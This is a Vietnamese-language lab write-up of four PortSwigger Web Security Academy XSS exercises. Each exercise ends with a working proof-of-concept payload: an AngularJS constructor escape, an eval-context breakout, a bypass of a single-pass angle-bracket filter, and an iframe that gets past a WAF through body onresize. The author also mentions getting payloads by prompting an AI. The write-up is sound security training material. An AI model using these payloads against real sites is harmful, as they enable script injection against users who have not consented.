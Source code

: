 ### Lab: DOM XSS in AngularJS expression with angle brackets and double quotes HTML-encoded

- Kiểm tra phiên bản trang web.
    - AngularJS 1.7.7 -> Thử 1 chút research XSS vuln cho phiên bản này

    ![alt text](/XSS/images/image-1.png)

- Prompt AI 1 chút để lấy payload. Thử lần lượt các payload trả về 

    ![alt text](/XSS/images/image-2.png)

- Thành công alert ở payload thứ 2. Và thế là solve 

    ![alt text](/XSS/images/image-3.png)

    ![alt text](/XSS/images/image.png)

- PoC

    ```xml
    /?search=%7B%7Bconstructor.constructor%28%27alert%281%29%27%29%28%29%7D%7D
    ```

### Lab: Reflected DOM XSS

- Lỗ hổng Reflected DOM-based XSS trong hàm eval()

    ![alt text](/XSS/images/image-5.png)

    - Giờ tạo payload để nó chạy lệnh eval. Nó sẽ trông như này
    ```js
    var searchResultsObj = { "searchTerm": "\"-alert(1)}//", "results": [] };
    ```
    - Hay tương đương với
    ```js
    var searchResultsObj = {"searchTerm":""-alert(1)}//","results":[]};
    ```

- Thành công alert

    ![alt text](/XSS/images/image-4.png)

- PoC

    ```
    /?search=%5C"-alert%281%29%7D%2F%2F
    ```

### Lab: Stored DOM XSS

- Hàm này chỉ thay 1 lần cặp dấu `<>` 

    ![alt text](/XSS/images/image-6.png)

    - Thử tạo thêm 1 cặp `<>` để bypass nó. Trông sẽ như này
    ```js
    <><img src=1 onerror=alert(1)>
    ```
    - Sau khi replace, nó sẽ thành như này
    ```js
    &lt;><img src=1 onerror=alert(1)>
    ```

- Thành công alert 

    ![alt text](/XSS/images/image-8.png)

- Solve

    ![alt text](/XSS/images/image-7.png)

- Poc

    ```js
    <><img src=1 onerror=alert(1)>
    ```

### Lab: Reflected XSS into HTML context with most tags and attributes blocked

- Thử 1 số payload thì bị chặn bởi WAF

    ![alt text](/XSS/images/image-9.png)

    - Tuy nhiên, `<>` lại không bị chặn -> WAF chỉ chặn các từ có trong blacklist như alert ...

    ![alt text](/XSS/images/image-10.png)

- Thử brute force các thẻ bằng [tags.txt](/XSS/tags.txt)

    - Hầu hết các thẻ đều bị WAF chặn, trừ `body`, `custom tags`

    ![alt text](/XSS/images/image-11.png)

- Tiếp tục thử với các events hợp lệ -> `onresize` khả dụng cho payload để mở máy in `print()` 

    ![alt text](/XSS/images/image-12.png)


- Gửi payload tới server

    ![alt text](/XSS/images/image-13.png)

    - Solve

    ![alt text](/XSS/images/image-14.png)

- PoC

    ```js
    <iframe src="https://0af300d50423837481e4b137001c0014.web-security-academy.net/?search=%22%3E%3Cbody%20onresize=print()%3E" onload=this.style.width='100px'>
    ```


